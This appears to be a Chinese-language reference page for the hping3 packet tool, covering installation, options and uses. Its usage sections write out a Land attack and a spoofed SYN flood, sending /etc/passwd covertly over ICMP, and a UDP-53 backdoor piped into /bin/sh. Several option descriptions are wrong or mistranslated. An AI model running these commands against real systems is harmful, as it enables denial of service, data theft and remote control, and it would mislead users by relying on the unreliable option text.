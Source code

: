 hping3
===

测试网络及主机的安全

## 补充说明

**hping** 是用于生成和解析TCPIP协议数据包的开源工具。创作者是Salvatore Sanfilippo。目前最新版是hping3，支持使用tcl脚本自动化地调用其API。hping是安全审计、防火墙测试等工作的标配工具。hping优势在于能够定制数据包的各个部分，因此用户可以灵活对目标机进行细致地探测。

### 安装  

```
yum install libpcap-devel tc-devel
ln -s /usr/include/pcap-bpf.h /usr/include/net/bpf.h
wget http://www.hping.org/hping3-20051105.tar.gz
tar zxvf hping3-20051105.tar.gz
cd hping3-20051105
./configure
make
make install
```

### 选项  

```
-H --help 显示帮助。
-v -VERSION 版本信息。
-c --count count 发送数据包的次数 关于countreached_timeout 可以在hping2.h里编辑。
-i --interval 包发送间隔时间（单位是毫秒）缺省时间是1秒,此功能在增加传输率上很重要,在idle/spoofing扫描时此功能也会被用到,你可以参考hping-howto获得更多信息-fast 每秒发10个数据包。
-n -nmeric 数字输出，象征性输出主机地址。
-q -quiet 退出。
-I --interface interface name 无非就是eth0之类的参数。
-v --verbose 显示很多信息，TCP回应一般如：len=46 ip=192.168.1.1 flags=RADF seq=0 ttl=255 id=0 win=0 rtt=0.4ms tos=0 iplen=40 seq=0 ack=1380893504 sum=2010 urp=0
-D --debug 进入debug模式当你遇到麻烦时，比如用HPING遇到一些不合你习惯的时候，你可以用此模式修改HPING，（INTERFACE DETECTION,DATA LINK LAYER ACCESS,INTERFACE SETTINGS,.......）
-z --bind 快捷键的使用。
-Z --unbind 消除快捷键。
-O --rawip RAWIP模式，在此模式下HPING会发送带数据的IP头。
-1 --icmp ICMP模式，此模式下HPING会发送IGMP应答报，你可以用--ICMPTYPE --ICMPCODE选项发送其他类型/模式的ICMP报文。
-2 --udp UDP 模式，缺省下，HPING会发送UDP报文到主机的0端口，你可以用--baseport --destport --keep选项指定其模式。
-9 --listen signatuer hping的listen模式，用此模式，HPING会接收指定的数据。
-a --spoof hostname 伪造IP攻击，防火墙就不会记录你的真实IP了，当然回应的包你也接收不到了。
-t --ttl time to live 可以指定发出包的TTL值。
-H --ipproto 在RAW IP模式里选择IP协议。
-w --WINID UNIX ,WINDIWS的id回应不同的，这选项可以让你的ID回应和WINDOWS一样。
-r --rel 更改ID的，可以让ID曾递减输出，详见HPING-HOWTO。
-F --FRAG 更改包的FRAG，这可以测试对方对于包碎片的处理能力，缺省的“virtual mtu”是16字节。
-x --morefrag 此功能可以发送碎片使主机忙于恢复碎片而造成主机的拒绝服务。
-y -dontfrag 发送不可恢复的IP碎片，这可以让你了解更多的MTU PATH DISCOVERY。
-G --fragoff fragment offset value set the fragment offset
-m --mtu mtu value 用此项后ID数值变得很大，50000没指定此项时3000-20000左右。
-G --rroute 记录路由，可以看到详悉的数据等等，最多可以经过9个路由，即使主机屏蔽了ICMP报文。
-C --ICMPTYPE type 指定ICMP类型，缺省是ICMP echo REQUEST。
-K --ICMPCODE CODE 指定ICMP代号，缺省0。
--icmp-ipver 把IP版本也插入IP头。
--icmp-iphlen 设置IP头的长度，缺省为5（32字节）。
--icmp-iplen 设置IP包长度。
--icmp-ipid 设置ICMP报文IP头的ID，缺省是RANDOM。
--icmp-ipproto 设置协议的，缺省是TCP。
-icmp-cksum 设置校验和。
-icmp-ts alias for --icmptype 13 (to send ICMP timestamp requests)
--icmp-addr Alias for --icmptype 17 (to send ICMP address mask requests)
-s --baseport source port hping 用源端口猜测回应的包，它从一个基本端口计数，每收一个包，端口也加1，这规则你可以自己定义。
-p --deskport [+][+]desk port 设置目标端口，缺省为0，一个加号设置为:每发送一个请求包到达后，端口加1，两个加号为：每发一个包，端口数加1。
--keep 上面说过了。
-w --win 发的大小和windows一样大，64BYTE。
-O --tcpoff Set fake tcp data offset. Normal data offset is tcphdrlen / 4.
-m --tcpseq 设置TCP序列数。
-l --tcpck 设置TCP ack。
-Q --seqnum 搜集序列号的，这对于你分析TCP序列号有很大作用。
```

### Hping3功能  

Hping3主要有以下典型功能应用：

####  防火墙测试  

使用Hping3指定各种数据包字段，依次对防火墙进行详细测试。请参考：http://0daysecurity.com/articles/hping3_examples.html

测试防火墙对ICMP包的反应、是否支持traceroute、是否开放某个端口、对防火墙进行拒绝服务攻击（DoS attack）。例如，以LandAttack方式测试目标防火墙（Land Attack是将发送源地址设置为与目标地址相同，诱使目标机与自己不停地建立连接）。

```
hping3 -S  -c 1000000 -a 10.10.10.10 -p 21 10.10.10.10
```

#### 端口扫描  

Hping3也可以对目标端口进行扫描。Hping3支持指定TCP各个标志位、长度等信息。以下示例可用于探测目标机的80端口是否开放：

```
hping3 -I eth0  -S 192.168.10.1 -p 80
```

其中`-I eth0`指定使用eth0端口，`-S`指定TCP包的标志位SYN，`-p 80`指定探测的目的端口。

hping3支持非常丰富的端口探测方式，nmap拥有的扫描方式hping3几乎都支持（除开connect方式，因为Hping3仅发送与接收包，不会维护连接，所以不支持connect方式探测）。而且Hping3能够对发送的探测进行更加精细的控制，方便用户微调探测结果。当然，Hping3的端口扫描性能及综合处理能力，无法与Nmap相比。一般使用它仅对少量主机的少量端口进行扫描。

#### Idle扫描  

Idle扫描（Idle Scanning）是一种匿名扫描远程主机的方式，该方式也是有Hping3的作者Salvatore Sanfilippo发明的，目前Idle扫描在Nmap中也有实现。

该扫描原理是：寻找一台idle主机（该主机没有任何的网络流量，并且IPID是逐个增长的），攻击端主机先向idle主机发送探测包，从回复包中获取其IPID。冒充idle主机的IP地址向远程主机的端口发送SYN包（此处假设为SYN包），此时如果远程主机的目的端口开放，那么会回复SYN/ACK，此时idle主机收到SYN/ACK后回复RST包。然后攻击端主机再向idle主机发送探测包，获取其IPID。那么对比两次的IPID值，我们就可以判断远程主机是否回复了数据包，从而间接地推测其端口状态。

#### 拒绝服务攻击  

使用Hping3可以很方便构建拒绝服务攻击。比如对目标机发起大量SYN连接，伪造源地址为192.168.10.99，并使用1000微秒的间隔发送各个SYN包。

```
hping3 -I eth0 -a192.168.10.99 -S 192.168.10.33 -p 80 -i u1000
```

其他攻击如smurf、teardrop、land attack等也很容易构建出来。

#### 文件传输  

Hping3支持通过TCP/UDP/ICMP等包来进行文件传输。相当于借助TCP/UDP/ICMP包建立隐秘隧道通讯。实现方式是开启监听端口，对检测到的签名（签名为用户指定的字符串）的内容进行相应的解析。在接收端开启服务：

```
hping3 192.168.1.159--listen signature --safe  --icmp
```

监听ICMP包中的签名，根据签名解析出文件内容。

在发送端使用签名打包的ICMP包发送文件：

```
hping3 192.168.1.108--icmp ?d 100 --sign signature --file /etc/passwd
```

将`/etc/passwd`密码文件通过ICMP包传给192.168.10.44主机。发送包大小为100字节（-d 100），发送签名为signature(-sign signature)。

#### 木马功能  

如果Hping3能够在远程主机上启动，那么可以作为木马程序启动监听端口，并在建立连接后打开shell通信。与netcat的后门功能类似。

示例：本地打开53号UDP端口（DNS解析服务）监听来自192.168.10.66主机的包含签名为signature的数据包，并将收到的数据调用/bin/sh执行。

在木马启动端：

```
hping3 192.168.10.66--listen signature --safe --udp -p 53 | /bin/sh
```

在远程控制端：

```
echo ls >test.cmd
hping3 192.168.10.44 -p53 -d 100 --udp --sign siganature --file ./test.cmd
```

将包含ls命令的文件加上签名signature发送到192.168.10.44主机的53号UDP端口，包数据长度为100字节。

当然这里只是简单的演示程序，真实的场景，控制端可以利益shell执行很多的高级复杂的操作。


<!-- Linux命令行搜索引擎：https://jaywcjlove.github.io/linux-command/ -->